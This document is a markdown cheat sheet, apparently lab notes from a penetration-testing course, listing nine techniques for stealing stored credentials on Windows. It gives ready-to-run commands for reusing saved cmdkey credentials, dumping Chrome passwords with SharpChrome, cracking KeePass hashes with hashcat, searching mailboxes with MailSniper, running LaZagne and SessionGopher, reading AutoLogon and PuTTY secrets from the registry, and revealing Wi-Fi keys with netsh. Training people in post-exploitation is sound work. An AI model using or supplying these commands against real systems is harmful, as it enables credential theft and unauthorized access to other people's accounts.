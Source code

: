 There are many ways to steal credentials on a Windows system. Below are common techniques with simple explanations and the commands you can use.

### 1. Cmdkey Saved Credentials
Windows stores saved usernames and passwords for things like Remote Desktop connections.

List saved credentials:

```bash
cmdkey /list
```

Run a command as a saved user:

```bash
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

Example: Run PowerShell as that user:

```bash
runas /savecred /user:inlanefreight\bob "powershell.exe"
```

When connecting via RDP, the saved credentials are used automatically.

### 2. Browser Credentials (Chrome)
Users often save passwords in their browsers.

Extract saved Chrome passwords with SharpChrome:

```powershell
.\SharpChrome.exe logins /unprotect
```

This displays usernames and passwords saved in Chrome for the current user.

### 3. Password Managers (KeePass)
Password managers like KeePass store multiple passwords securely but can sometimes be cracked.

Extract KeePass hash from .kdbx file:

```bash
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx
```

Crack the hash with Hashcat (mode 13400 for KeePass):

```bash
hashcat -m 13400 keepass_hash.txt /path/to/rockyou.txt
```

If cracked, you get access to many stored passwords for important systems.

### 4. Searching Emails for Passwords
If you have access to a user's email inbox (Microsoft Exchange), you can search for passwords or credentials.

Example command with MailSniper:

```bash
MailSniper -search "password" -search "credential"
```

### 5. Extracting Credentials with LaZagne
LaZagne can extract stored passwords from many applications.

View help menu:

```powershell
.\lazagne.exe -h
```

Run all modules to extract any saved credentials:

```powershell
.\lazagne.exe all
```

This attempts to find and display cleartext passwords saved by browsers, chat clients, databases, and more.

### 6. Extract Remote Access Credentials with SessionGopher
SessionGopher finds saved login info for remote tools like PuTTY, WinSCP, and RDP.

Import the module in PowerShell:

```powershell
Import-Module .\SessionGopher.ps1
```

Run it against a target host:

```powershell
Invoke-SessionGopher -Target WINLPE-SRV01
```

You’ll get decrypted saved session info like usernames and passwords.

### 7. Cleartext Passwords in Registry - Windows AutoLogon
Windows AutoLogon stores username and password in the registry for automatic login.

Check AutoLogon registry keys:

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

Look for:

AutoAdminLogon (1 means enabled)

DefaultUserName (username)

DefaultPassword (password in cleartext)

Note: Using Autologon.exe from Sysinternals encrypts the password and is safer.

### 8. PuTTY Sessions Stored in Registry
PuTTY saves session info including proxy credentials in the registry.

List saved PuTTY sessions:

```bash
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
```

View specific session details:

```bash
reg query "HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions<SESSION_NAME>"
```

Look for ProxyUsername and ProxyPassword which may be stored in cleartext.

### 9. Wi-Fi Passwords
If you have admin access on a Windows machine with Wi-Fi, you can list saved wireless networks and their passwords.

List saved Wi-Fi profiles:

```bash
netsh wlan show profile
```

Show details and password of a profile:

```bash
netsh wlan show profile <profile-name> key=clear
```

The password will appear under Key Content.

